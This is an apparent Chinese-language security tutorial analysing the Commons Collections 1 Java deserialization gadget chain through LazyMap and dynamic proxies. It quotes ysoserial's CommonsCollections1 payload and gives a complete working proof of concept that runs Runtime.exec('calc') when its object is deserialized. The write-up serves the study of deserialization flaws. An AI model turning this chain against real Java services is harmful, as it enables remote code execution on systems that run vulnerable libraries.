






[toc]

# cc1链-接上回

ok，上回讲到了，cc1链的利用，使用的是`TransformedMap`，但在`ysoserial`中，用到的却是`LazyMap`：

```java
/*
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

	Requires:
		commons-collections
 */
public class CommonsCollections1 extends PayloadRunner implements ObjectPayload<InvocationHandler> {

    public InvocationHandler getObject(final String command) throws Exception {
        final String[] execArgs = new String[]{command};
        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
            new Transformer[]{new ConstantTransformer(1)});
        // real chain for after setup
        final Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{
                String.class, Class[].class},
                new Object[]{
                    "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{
                Object.class, Object[].class},
                new Object[]{
                    null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class}, execArgs),
            new ConstantTransformer(1)};

        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

        final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

        Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

        return handler;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(CommonsCollections1.class, args);
    }

    public static boolean isApplicableJavaVersion() {
        return JavaVersion.isAnnInvHUniversalMethodImpl();
    }
}

```

`LazyMap`和`TransformMap`一样，都是cc库中，且继承了`AbstractMapDecorator`，差别就是触发点的不同。在`TransformMap`中，触发点是put方法中的`transform()`；LazyMap 的作用是“懒加载”，在get找不到值的时候，它会调用 `factory.transform`方法去获取一个值，正好可以利用此来执行整个transform的整个利用过程。

LazyMap的get方法：



在`AnnotationInvocationHandler`的readObject方法并没有调用LazyMap的get方法，但是在`invoke`方法里面有调用，那如何调用到`AnnotationInvocationHandler`的invoke呢？`ysoserial`中使用到了java代理对象。

## java代理对象

>   作为一门静态语言，如果想劫持一个对象内部的方法调用，实现类似PHP的魔术方法 __call ，我们需 要用到 java.reflect.Proxy
>
>   代理类执行任意方法的时候都会执行被代理类中的invoke方法

```java
Map proxyMap = (Map) Proxy.newProxyInstance(
    Map.class.getClassLoader(), 
    new Class[] {Map.class}, 
    handler
);
```

第一个参数为ClassLoader，第二个为需要代理的对象集合，第三个为实现`InvocationHandler`接口的对象。

下面是个小demo：

写一个ExampleInvocationHandler类：

```java
package com.yutao.day9;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.util.Map;

public class ExampleInvocationHandler implements InvocationHandler {
    protected Map map;

    public ExampleInvocationHandler(Map map) {
        this.map = map;

    }

    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        if (method.getName().compareTo("get") == 0) {
            System.out.println("already hook " + method.getName());
            return "already hack";
        }
        return method.invoke(this.map, args);
    }
}
```

应用：

```java
package com.yutao.day9;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class Egtest {
    public static void main(String[] args) {
        InvocationHandler ih = new ExampleInvocationHandler(new HashMap());
        Map proxymap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, ih);
        proxymap.put("123", "456");
        String result = (String) proxymap.get("123");
        System.out.println(result);
    }
}
```

运行可以得到输出，put的是123和456，但是get的时候得到的却是already hack，hook了invoke方法。

而`AnnotationInvocationHandler`实际就是一个`InvocationHandler`，如果对这个类进行代理，那么readObject的时候，就会调用`AnnotationInvocationHandler#invoke`，从而触发`LazyMap#get`

## LazyMap构造利用链

```java
package com.yutao.day9;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;
import org.hibernate.annotations.common.annotationfactory.AnnotationProxy;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class LazyMapPoc {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };

        Transformer chainedTransformer = new ChainedTransformer(transformers);
        Map map = new HashMap<>();
        map.put("value", "aaa");

        Map transformedMap = LazyMap.decorate(map, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);

        InvocationHandler ih = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class, transformedMap);
		// 创建代理对象proxyMap来代理map，代理对象执行的所有方法都会替换执行InvocationHandler中的invoke方法
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, ih);

        ih = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class, proxyMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(ih);

        ByteArrayInputStream bin = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bin);
        Object obj = ois.readObject();
    }
}
```


## LazyMap利用链分析

首先修改下设置：

来自木头师傅：

>   在IDEA中Debug就利用toString，在过程中会调用代理类的toString方法从而造成非预期的命令执行



利用链：

```
/*
	Gadget chain:
		ObjectInputStream.readObject()#传入map的代理类
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()#传入的map为LazyMap
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()

	Requires:
		commons-collections
 */
```


LazyMap.decorate():



之后是LazyMap：



其中this.factory为Transformer对象。

LazyMap的get：


如果key不在map中，会执行`factory.transform(key)`。

```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };

        Transformer chainedTransformer = new ChainedTransformer(transformers);
        Map map = new HashMap();
        LazyMap lazyMap = (LazyMap) LazyMap.decorate(map, chainedTransformer);
        lazyMap.get("adf");
```


这样做利用面太小，找个readObject的，即：`AnnotationInvocationHandler`，其中的invoke会执行get：



>   代理类执行任意方法的时候都会执行被代理类中的invoke方法

如果将`AnnotationInvocationHandler`作为被代理的类，那么每次执行时都会执行`AnnotationInvocationHandler`的invoke方法。

还要将构造函数时传入的第二个参数传为LazyMap的对象，这样构造的时候memberValue才为LazyMap的对象：



如果只写一次：`InvocationHandler ih = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class, transformedMap);`的话是没有办法触发LazyMap#get导致命令执行的，因为memberValues.entrySet()是无法触发LazyMap#get。

重新创建AnnotationInvocationHandler，这样memberValues就会为代理对象：

`ih = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class, proxyMap);`

## 小总结

>   代理类执行任意方法的时候都会执行被代理类中的invoke方法

poc里面有两个newInstance：

1.  第一个利用invoke触发LazyMap的get从而命令执行：

    ` InvocationHandler ih = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class, transformedMap);`

2.  第二个是为了执行代理类的任意方法，从而触发上面的invoke方法：

    `ih = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class, proxyMap);`

